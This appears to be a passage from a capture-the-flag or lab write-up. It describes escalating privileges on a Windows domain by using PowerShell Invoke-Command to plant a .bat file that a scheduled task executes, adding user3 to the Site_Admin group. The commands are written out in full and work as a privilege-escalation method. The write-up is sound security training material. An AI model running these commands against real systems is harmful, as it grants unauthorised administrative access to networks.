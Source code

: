 ![](<../../.gitbook/assets/image (28) (1).png>)

I know from the .docx that Lois is the only person with Site Admin access, so she must be the privileged user within the environment. I can also assume that this .bat is running under a Scheduled task as it references 'every 5 minutes'

From what I understand, the .bat file is checking for any \* .bat files within 'keepmeon' and executing them.

I know from our Domain Group enumeration that the Site Admins group is named 'Site\_Admin'

I can create a .bat file that will add user3 to the site\_admins group. Knowing that I cannot create and download the file, I will need to create it through Powershell.

![](<../../.gitbook/assets/image (31) (1) (1) (1) (1).png>)

```
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $creds -ScriptBlock {Set-Content -Path 'c:\program files\Keepmeon\admin.bat' -Value 'net group site_admin user3 /add /domain'}
```

I double check the content with 'cat'

![](<../../.gitbook/assets/image (24) (1) (1).png>)

```
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $creds -ScriptBlock {cat 'c:\program files\Keepmeon\admin.bat'}
```

Wait for the scheduled task to run and then check user3 group memberships.

```
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $creds -ScriptBlock {net user user3}
```

Confirmed, user3 is now part of the site\_admins group. Time to enumerate.
